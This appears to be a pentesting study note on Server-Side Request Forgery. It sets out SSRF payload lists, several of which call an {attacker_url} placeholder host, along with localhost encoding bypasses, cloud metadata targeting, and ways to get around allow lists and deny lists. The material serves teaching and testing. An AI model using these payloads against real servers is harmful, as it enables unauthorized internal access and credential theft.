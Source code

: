 # SSRF

**SSRF** stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are **two types** of SSRF vulnerability; the first is a **regular SSRF** where **data is returned to the attacker's screen**. The second is a **Blind SSRF** vulnerability where an SSRF occurs, but **no information is returned to the attacker's screen**.

## Finding an SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

* When a **full URL** is used in a parameter in the address bar:

<figure><img src="../../../../.gitbook/assets/956e1914b116cbc9e564e3bb3d9ab50a.png" alt=""><figcaption></figcaption></figure>

*   A **hidden field** in a form:\


    <figure><img src="../../../../.gitbook/assets/237696fc8e405d25d4fc7bbcc67919f0.png" alt=""><figcaption></figcaption></figure>
*   A **partial URL** such as just the hostname:\


    <figure><img src="../../../../.gitbook/assets/f3c387849e91a4f15a7b59ff7324be75 (1).png" alt=""><figcaption></figcaption></figure>
*   Or **perhaps only the path of the URL**:\


    <figure><img src="../../../../.gitbook/assets/3fd583950617f7a3713a107fcb4cfa49.png" alt=""><figcaption></figcaption></figure>

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as [https://webhook.site/](https://webhook.site/).



## Testing SSRF

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

To do this, we have to **navigate through the website** with the **Burp Proxy** activeted, and then we have to analyze the request to **find a possibile vulnerable parameter**.&#x20;

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.



## Bypassing Filter

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

### Blacklist input filter

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

```
http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
http://2130706433 # Decimal version of localhost
http://0x7f000001/ # Hexadecimal version of localhost
```

* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.



## Utils ex.

### \&x= to ignore

If we can insert other domain into a parameter but there is the next part of the URL that we have to ignore we can use  `&x=` at the start of ignore part

```bash
# start URL
https://website.thm/item/2?server=api

# the server par replaces the SUBDOMAIN of the URL. 
# We can add in this par all other URL for the request and then tell to request to 
# ignore the next part with &x= symbol
# Requesto to send
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# effective request forgery which will be send 
https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2
```



## Defeating Common SSRF Defenses

More security-savvy developers aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, either a **deny list** or an **allow list**.

#### Deny List

A Web Application may employ a deny list **to protect sensitive endpoints, IP addresses or domains** from being accessed by the public while still allowing access to other locations. \
A specific endpoint to restrict access is the **localhost**, which may contain server performance data or further sensitive information, so domain names such as `localhost` and `127.0.0.1` would appear on a deny list.\
**Attackers can bypass** a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.\*.\*.\*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.

Also, in a **cloud environment**, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An **attacker can bypass this** by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

#### Allow List

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with **https://website.com.** An **attacker could quickly circumvent this rule** by **creating a subdomain on an attacker's domain name**, such as `https://website.com.attackers-domain.com`. The application logic would now allow this input and let an attacker control the internal HTTP request.



#### Open Redirect

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. \
An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link `https://website.com/link?url=https://linkedin.com`. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. \
But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.com/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.



## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/ssrf/" %}
